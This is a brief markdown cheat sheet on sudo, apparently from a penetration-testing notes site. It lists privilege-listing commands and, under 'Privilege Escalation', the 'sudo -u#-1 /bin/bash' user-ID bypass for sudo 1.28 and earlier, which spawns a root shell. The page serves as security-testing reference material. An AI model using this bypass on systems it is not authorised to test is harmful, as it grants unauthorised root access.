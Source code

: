 ```yaml
---
title: Sudo
desc: Linux command to execute any commands as privileges.
tags: [Linux, PrivEsc, SUID]
alts: []
website:
render_with_liquid: false
---
```


## List of privilege commands for current user

```sh
sudo -l

# Specify the hostname e.g. 'host-name'
sudo -h host-name -l

# Execute via the hostname e.g. 'host-name'
sudo -h host-name /bin/bash
```

<br />

## Privilege Escalation

```sh
# version <= 1.28
sudo -u#-1 /bin/bash
```

<br />

## Misc

```sh
# If you owns the privileges `su` command, you can switch to root user
sudo su root

# Run as other user named 'bob'
sudo -u bob whoami
```